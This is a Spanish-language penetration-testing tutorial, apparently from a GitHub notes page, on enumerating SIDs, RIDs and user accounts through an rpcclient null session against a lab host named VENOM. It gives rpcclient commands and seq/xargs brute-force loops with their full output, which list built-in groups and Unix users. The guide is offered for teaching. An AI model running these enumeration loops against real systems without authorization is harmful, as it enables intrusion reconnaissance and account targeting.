 # ENUMERACION CON RPCCLIENTE
## Enumeración de recursos compartidos RPC

### ¿Qué es un RID?
---

Un Identificador Relativo (RID) es un identificador único (representado en formato hexadecimal) utilizado por Windows para rastrear e identificar objetos. Para explicar cómo encaja esto, veamos los siguientes ejemplos:

El SID del dominio NAME_DOMAIN.LOCAL es: S-1-5-21-1038751438-1834703946-36937684957. Cuando se crea un objeto dentro de un dominio, el número anterior (SID) se combinará con un RID para crear un valor único utilizado para representar el objeto.
### Enumeracion rpcclient
---
Si en la fase enumeración se encontrado expuesto el servicio `rpc-->139`, existe la posibilidad e explotar la vulnerabilidad de nullsession, por lo que esto se puede ejecutar una validación con la herramienta `rpcclient`.
```ruby
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149
rpcclient $> srvinfo
        VENOM          Wk Sv PrQ Unx NT SNT venom server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03
rpcclient $> 
```
Como se puede apreciar en la ejecución anterior, una vez accedido al equipo victima mediante rpcclient, aprovechando nullsession, se puede usar el comando `srvinfo`, para extraer información del equipo accedido.
#### Detalles
```ruby 
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149 -c "help" | grep -i SID
       uidtosid         Convert uid to sid
     lookupsids         Convert SIDs to names
    lookupsids3         Convert SIDs to names
lookupsids_level                Convert SIDs to names
    lookupnames         Convert names to SIDs
   lookupnames4         Convert names to SIDs
lookupnames_level               Convert names to SIDs
     lsaenumsid         Enumerate the LSA SIDS
lsaenumprivsaccount             Enumerate the privileges of an SID
lsaenumacctrights               Enumerate the rights of an SID
     lsaaddpriv         Assign a privilege to a SID
     lsadelpriv         Revoke a privilege from a SID
lsaquerytrustdominfo            Query LSA trusted domains info (given a SID)
lsaquerytrustdominfobysid               Query LSA trusted domains info (given a SID)                                                                              
```
> * -N.- nullsession
> * -U.- Usuario.
> * -c.- Flag para emitir un comando
En la ejecución anterior se realizó un filtrado con `SID`, para buscar los comandos que permitan enumerar usuarios, para enumerar los RID, se puede ejecutar el comando lsaenumsid.

```ruby 
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149 -c "lsaenumsid"                              
found 6 SIDs

S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-544
S-1-1-0
```

Para hacer una enumeración se puede utilizar un secuenciador `seq` y el comando `xargs` para enviar la ejecución mediante hilos, y que esto permita agilizar la enumeración.

```ruby 
┌──(s3cur1ty3c㉿kali)-[~]
└─$ seq 1 1000 | xargs -P 50 -I {} rpcclient -N -U "" 192.168.200.149 -c "lookupsids S-1-5-32-{}" | grep -v "unknown"
S-1-5-32-547 BUILTIN\Power Users (4)
S-1-5-32-546 BUILTIN\Guests (4)
S-1-5-32-545 BUILTIN\Users (4)
S-1-5-32-548 BUILTIN\Account Operators (4)
S-1-5-32-544 BUILTIN\Administrators (4)
S-1-5-32-551 BUILTIN\Backup Operators (4)
S-1-5-32-557 BUILTIN\Incoming Forest Trust Builders (4)
S-1-5-32-554 BUILTIN\Pre-Windows 2000 Compatible Access (4)
S-1-5-32-556 BUILTIN\Network Configuration Operators (4)
S-1-5-32-550 BUILTIN\Print Operators (4)
S-1-5-32-552 BUILTIN\Replicator (4)
S-1-5-32-553 BUILTIN\RAS Servers (4)
S-1-5-32-549 BUILTIN\Server Operators (4)
S-1-5-32-555 BUILTIN\Remote Desktop Users (4)
S-1-5-32-558 BUILTIN\Performance Monitor Users (4)
S-1-5-32-560 BUILTIN\Windows Authorization Access Group (4)
S-1-5-32-559 BUILTIN\Performance Log Users (4)
S-1-5-32-561 BUILTIN\Terminal Server License Servers (4)
S-1-5-32-562 BUILTIN\Distributed COM Users (4)
S-1-5-32-569 BUILTIN\Cryptographic Operators (4)
S-1-5-32-573 BUILTIN\Event Log Readers (4)
S-1-5-32-574 BUILTIN\Certificate Service DCOM Access (4)
```

Tambien se puede hacer un descubrimiento a nivel nombres de usuario, y esto permite extaer el RID del usuario, esto se puede ejecutar con el comando `lookupnames`.

```ruby
┌──(s3cur1ty3c㉿kali)-[~]
└─$ rpcclient -N -U "" 192.168.200.149 -c "lookupnames root" 
root S-1-22-1-0 (User: 1)
```

Una vez identificado lo los RID de usuarios del sistema, se puede ejecutar un secuenciador para hacer enumeración de los usuarios.

```ruby
┌──(s3cur1ty3c㉿kali)-[~]
└─$ seq 1 1500 | xargs -P 50 -I {} rpcclient -N -U "" 192.168.200.149 -c "lookupsids S-1-22-1-{}" | grep -oP '.*User\\[a-z].*\s'
S-1-22-1-5 Unix User\games 
S-1-22-1-1 Unix User\daemon 
S-1-22-1-4 Unix User\sync 
S-1-22-1-7 Unix User\lp 
S-1-22-1-6 Unix User\man 
S-1-22-1-13 Unix User\proxy 
S-1-22-1-9 Unix User\news 
S-1-22-1-8 Unix User\mail 
S-1-22-1-2 Unix User\bin 
S-1-22-1-10 Unix User\uucp 
S-1-22-1-3 Unix User\sys 
S-1-22-1-34 Unix User\backup 
S-1-22-1-33 Unix User\www-data 
S-1-22-1-41 Unix User\gnats 
S-1-22-1-38 Unix User\list 
S-1-22-1-39 Unix User\irc 
S-1-22-1-100 Unix User\systemd-network 
S-1-22-1-101 Unix User\systemd-resolve 
S-1-22-1-103 Unix User\messagebus 
S-1-22-1-119 Unix User\pulse 
S-1-22-1-102 Unix User\syslog 
S-1-22-1-111 Unix User\speech-dispatcher 
S-1-22-1-107 Unix User\usbmux 
S-1-22-1-109 Unix User\rtkit 
S-1-22-1-110 Unix User\cups-pk-helper 
S-1-22-1-108 Unix User\dnsmasq 
S-1-22-1-105 Unix User\uuidd 
S-1-22-1-106 Unix User\avahi-autoipd 
S-1-22-1-112 Unix User\whoopsie 
S-1-22-1-114 Unix User\saned 
S-1-22-1-113 Unix User\kernoops 
S-1-22-1-116 Unix User\colord 
S-1-22-1-118 Unix User\geoclue 
S-1-22-1-121 Unix User\gdm 
S-1-22-1-122 Unix User\mysql 
S-1-22-1-117 Unix User\hplip 
S-1-22-1-120 Unix User\gnome-initial-setup 
S-1-22-1-115 Unix User\avahi 
S-1-22-1-123 Unix User\ftp 
S-1-22-1-999 Unix User\vboxadd 
S-1-22-1-1002 Unix User\hostinger 
S-1-22-1-1000 Unix User\nathan 
```